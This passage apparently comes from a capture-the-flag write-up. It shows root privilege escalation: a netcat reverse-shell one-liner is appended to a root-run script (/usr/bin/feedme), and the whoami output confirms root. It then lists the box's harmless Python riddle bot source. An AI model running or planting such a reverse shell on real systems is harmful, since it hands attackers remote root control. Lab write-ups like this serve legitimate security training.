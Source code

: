 ```
echo 'bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <our_ip> 1337 >/tmp/f"' >> /usr/bin/feedme
```
After executing this, we just wait, and boom!
```
root@hackerdog:~# whoami && id && hostname
root
uid=0(root) gid=0(root) groups=0(root)
hackerdog
root@hackerdog:~# 
```

Now just get the flag from `/root/` and we are done!

## __Extras!__

But, I wasnted to see how that thing on port `1337` works, so let's check out the docker container running, we find the docker container id using `docker ps` and enter the container using `docker exec -it <container_id> sh`.

now I just used cat for the `olliebot.py` script, and looked at the source.
```python
import sys
import threading
import socket
from time import sleep

#make this run on startup  WIP
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 1337))
s.listen()

def catch(c, a):
    c.send(b"Hey stranger, I\'m Ollie, protector of panels, lover of deer antlers.\n\nWhat is your name? ")
    user = c.recv(1024).decode("utf-8").strip("\n")
    c.send(f'What\'s up, {user.capitalize()}! It\'s been a while. What are you here for? '.encode("utf-8"))
    what = c.recv(1024).decode("utf-8").strip("\n")
    if 'food' in what.lower():
        c.send(b'I am hungry, I need food. You better be careful. I\'ve been known to bite. Moving on...\n')
        sleep(1.5)
        c.send(b'Ya know what... I have an idea. A question to test your knowledge about me...\n')
        sleep(2)
    else:
        c.send(f'Ya\' know what? {user.capitalize()}. If you can answer a question about me, I might have something for you.\n'.encode("utf-8"))
        sleep(1.5)

    while True:
        c.send(f'\n\nWhat breed of dog am I? I\'ll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? '.encode("utf-8"))
        riddle = c.recv(1024).decode("utf-8").strip("\n")
        if 'bulldog' not in riddle.lower():
            c.send(b'You are wrong! I\'m sorry, but this is serious business. Let\'s try again...\n')
        else:
            c.send(b'You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...\nPlease hold on a minute\n')
            sleep(2)
            c.send(b'Ok, I\'m back.\nAfter a lengthy discussion, we\'ve come to the conclusion that you are the right person for the job.')
            sleep(2)
```
